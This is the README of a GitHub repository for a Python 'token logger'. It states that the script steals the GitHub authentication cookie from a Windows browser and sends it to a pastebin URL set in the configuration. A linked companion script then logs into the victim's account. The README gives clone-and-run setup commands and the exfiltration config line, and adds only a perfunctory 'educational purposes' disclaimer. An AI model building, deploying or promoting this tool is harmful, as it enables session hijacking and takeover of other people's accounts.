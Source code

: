 
# GitHub-Token-Logger
This script is made in python3, and steals the auth cookie that github uses. You can use this cookie to login to the account, using another script linked in the readme.
I have created a script that allows you to login to the cookie. Link: https://github.com/LocalsGitHub/Github-Token-Login

## Setup

Depending on your python installation your commands may vary. 
Below are the commands needed to set up.
The script was tested in python 3.8.6, on windows 10. This script only works on windows.

Windows:
```
git clone https://github.com/LocalsGitHub/GitHub-Token-Logger.git
cd GitHub-Token-Logger
pip install browser_cookie3
pip install requests
py logger.py
```
## Config

Once you have opened the script in your desired text editor, there 1 line that you can change.
```
# Enter your pastebin below
pastebinURL = "https://pastebin.com/raw/xxxxxx"
```

# Support
Create an issue, or message me on discord.

# Credit

Credit to me for maintaining this project.
Credit to https://github.com/borisbabic/browser_cookie3 for their module.

## This is only for educational purposes, as I am not responsible for any malicous actions you do using this repo.
